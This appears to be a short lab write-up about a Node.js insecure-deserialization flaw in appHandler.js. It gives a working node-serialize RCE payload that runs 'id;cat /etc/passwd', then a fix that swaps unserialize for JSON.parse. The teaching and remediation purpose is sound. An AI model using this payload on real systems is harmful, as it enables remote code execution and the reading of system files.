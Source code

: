 
## Exploitation 

Json to exploit the vulnerability 
```json
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

## Fix
---

Change the way we deserialize 

#### Changes to `appHandler.js`
```js
// Remove 
var products = serialize.unserialize(req.files.products.data.toString('utf8'))

// Add the following code		
var products = JSON.parse(req.files.products.data.toString('utf8'))
```


